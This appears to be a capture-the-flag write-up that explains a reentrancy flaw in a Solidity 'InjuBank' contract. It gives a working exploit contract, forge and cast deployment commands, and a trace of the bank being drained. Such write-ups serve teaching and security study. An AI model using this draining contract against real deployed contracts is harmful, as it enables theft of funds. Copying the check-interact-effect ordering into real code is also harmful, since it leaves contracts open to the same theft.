 This bank is not as secure as you might think. First,  let's see what the *isSolved()* condition is on the setup contract.  &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import {InjuBank} from "./InjuBank.sol";

contract Setup {
    InjuBank public immutable IB;

    constructor() payable{
        IB = new InjuBank{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(IB).balance == 0;
    }
}
```
&nbsp;  
Based on the setup contract, the initial balance of the bank is 50 Ether, while the *isSolved()* will return true if it has 0 balance, not let's see the Inju Bank to see what we are dealing with. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract InjuBank{

    mapping(address => uint256) public balanceOf;

    constructor() payable{}

    function deposit() public payable{
        require(msg.value > 1 ether, "Minimum Deposit is 1 ether");
        uint256 toAdd = msg.value;
        balanceOf[msg.sender] += toAdd;
    }

    function withdraw(uint256 _amount) public{
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        balanceOf[msg.sender] = newBalance;
    }

    receive() external payable { 
        deposit();
    }

}
```
&nbsp;  
We only have 2 functions to deal with in this contract; yeah, let's say the *receive()* is the same as the *deposit()*. So first, the *deposit()* function allows us to deposit some Ether to the bank and add it to our account; it has the minimum deposit of 1 Ether. Next up is the *withdraw()* that allow us to withdraw our money with the minimum amount of 1 Ether per withdrawal. Nothing seems strange until we look more closely &nbsp;  
&nbsp;  

```solidity
    function withdraw(uint256 _amount) public{
        // CHECKS 
        require(_amount <= balanceOf[msg.sender], "Amount to Withdraw exceed Balance");
        require(_amount >= 1 ether, "Minimum Withdrawal is 1 Ether");
        uint256 newBalance = balanceOf[msg.sender] - _amount;
        // INTERACTIONS
        (bool sent, ) = msg.sender.call{value: _amount}("");
        require(sent, "Withdrawal Failed!");
        // EFFECT
        balanceOf[msg.sender] = newBalance;
    }
```
&nbsp;  
The best practice of any function is always CEI, or **CHECK** - **EFFECT** - **INTERACTIONS**, the *withdraw()* function, however, doesn't seem to apply this correctly; instead it implements CIE, or **CHECK** - **INTERACTIONS** - **EFFECT**, in this case, the **INTERACTIONS** is sending the balance to the *msg.sender*, which, if it's a smart contract or more explicitly an Exploit Contract, we can control what to do next after receiving any Ether by modifying the *receive()* function on our Exploit Contract. &nbsp;  
&nbsp;  
The Exploit will have this flow; first we have to deposit some Ether; since the minimum is one and we have 6 Ether, we can give our Exploit 5 Ether and make it deposit all that Ether. Next is calling the withdraw with the value of 5 (our balance); upon receiving the Ether, we can just make it trigger another *withdraw()* of another 5 Ether; this will be repeated until we drain all the balance on the Inju Bank. The exploit would look like this &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

import "./InjuBank.sol";
import "./Setup.sol";

contract Exploit{
    Setup public immutable setup;
    InjuBank public immutable IB;

    constructor(address payable _setup) payable {
        require(msg.value == 5 ether, "need 5 ether");
        setup = Setup(_setup);
        IB = InjuBank(setup.IB());
    }

    function exploit() public{
        IB.deposit{value: 5 ether}();
        IB.withdraw(5 ether);
    }


    receive() external payable { 
        if(address(IB).balance >= 5 ether){
            IB.withdraw(5 ether);
        }
    }

}
```
&nbsp;  
To deploy the exploit contract and run it, we can use this command. &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit Contract
forge create src/inju-bank/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Calling the exploit
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
After running the command, if you press the *Flag* button now you should get the flag. By the way, if you are curious on like how the attack worked, here is a little flow of the Exploit. &nbsp;  
&nbsp;  
```bash
├─ [123849] Exploit::attack()
    │   ├─ [22434] InjuBank::deposit{value: 5000000000000000000}()
    │   │   └─ ← ()
    │   ├─ [91371] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   ├─ [83596] Exploit::receive{value: 5000000000000000000}()
    │   │   │   ├─ [83031] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   ├─ [75256] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   ├─ [74691] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   ├─ [66916] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   ├─ [66351] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   ├─ [58576] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [58011] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   ├─ [50236] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   ├─ [49671] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41896] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [41331] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [33556] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [32991] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [25216] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [24651] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16876] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [16311] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [8536] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [7971] InjuBank::withdraw(5000000000000000000 [5e18])
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   ├─ [196] Exploit::receive{value: 5000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   │   └─ ← ()
    │   │   │   │   │   └─ ← ()
    │   │   │   │   └─ ← ()
    │   │   │   └─ ← ()
    │   │   └─ ← ()
    │   └─ ← ()
```
&nbsp;  
In short, when the Ether is received by our Exploit Contract, it will first check whether the Inju Bank Contract still has balance or not (greater than or equal to 0), if it's valid, it will then call another *withdraw()* with 5 Ether, until it's false.